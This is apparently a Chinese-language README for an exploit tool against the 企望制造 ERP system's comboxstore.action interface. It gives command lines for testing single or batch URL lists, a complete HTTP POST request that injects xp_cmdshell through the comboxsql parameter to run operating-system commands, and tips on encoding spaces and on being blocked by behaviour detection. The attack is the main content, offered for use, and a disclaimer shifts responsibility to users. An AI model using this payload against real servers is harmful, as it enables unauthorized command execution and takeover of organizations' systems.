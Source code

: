 # 企望制造 ERP comboxstore.action 远程命令执行漏洞

企望制造 ERP comboxstore.action接口存在远程命令执行漏洞，攻击者可以利用该漏洞获取服务器权限

## 工具利用

python3 QiwangERP_RCE.py -u http://127.0.0.1:1111 单个url测试

python3 QiwangERP_RCE.py -f url.txt 批量检测

![](./poc.jpg)

## exp利用

将脚本流量转发到burp

修改exec参数执行其他命令
```
POST /mainFunctions/comboxstore.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.96.7 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

comboxsql=exec%20xp_cmdshell%20'net+user'
```
![](./exp.jpg)

tips:
1、命令中的空格需要url编码或者用 + 等符号替换
2、如果一开始可以执行命令到后边突然执行不了了大概率是被行为检测到给ban了

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
